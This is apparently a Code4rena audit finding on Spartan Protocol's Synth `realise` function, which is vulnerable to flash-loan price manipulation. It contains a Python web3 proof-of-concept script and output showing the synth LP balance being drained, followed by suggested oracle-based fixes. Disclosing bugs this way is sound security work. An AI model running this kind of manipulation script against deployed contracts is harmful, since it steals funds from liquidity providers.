 ## [[H-05] Synth `realise` is vulnerable to flash loan attacks](https://github.com/code-423n4/2021-07-spartan-findings/issues/40)
_Submitted by jonah1005, also found by a_delamo_

Synth `realise` function calculates `baseValueLP` and `baseValueSynth` base on AMM spot price which is vulnerable to flash loan attack. `Synth`'s lp is subject to `realise` whenever the AMM ratio is different than Synth's debt ratio.

The attack does not necessarily require a flash loan. A big whale of the lp token holders could keep calling `realise` by shifting token ratio of AMM pool back and forth.

The vulnerability is located at `Synth.sol` [L187-L199](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Synth.sol#L187-L199). Where the formula [here](https://github.com/code-423n4/2021-07-spartan/blob/e2555aab44d9760fdd640df9095b7235b70f035e/contracts/Utils.sol#L114-L126) is dangerous.

Here's a script for conducting flashloan attack:
```python
flashloan_amount = init_amount
user = w3.eth.accounts[0]
marked_token.functions.transfer(user, flashloan_amount).transact()
marked_token.functions.transfer(token_pool.address, flashloan_amount).transact({'from': user})
token_pool.functions.addForMember(user).transact({'from': user})
received_lp = token_pool.functions.balanceOf(user).call()
synth_balance_before_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
token_synth.functions.realise(token_pool.address).transact()
token_pool.functions.transfer(token_pool.address, received_lp).transact({'from': user})
token_pool.functions.removeForMember(user).transact({'from': user})
token_synth.functions.realise(token_pool.address).transact()
synth_balance_after_realise = token_synth.functions.mapSynth_LPBalance(token_pool.address).call()
print('synth_lp_balance_after_realise', synth_balance_after_realise)
print('synth_lp_balance_before_realise', synth_balance_before_realise)

```
Output:
```
synth_balance_after_realise 1317859964829313908162
synth_balance_before_realise 2063953488372093023256
```

Calculating Lp token's value base on AMM protocol is known to be dangerous.
There are a few steps that might solve the issue:
1. calculate token's price from a reliable source.  Implement a TWAP oracle or uses chainlink oracle.
2. calculate lp token value based on anti-flashloan formula.  Alpha finance's formula is a good reference: https://blog.alphafinance.io/fair-lp-token-pricing

**[verifyfirst (Spartan) confirmed and disagreed with severity](https://github.com/code-423n4/2021-07-spartan-findings/issues/40#issuecomment-883856664):**
 > A proposal has been suggested to limit the use of realise() for a DAO proposal. This will allow only liquidity providers to choose the outcome of a function that directly affects them.
>
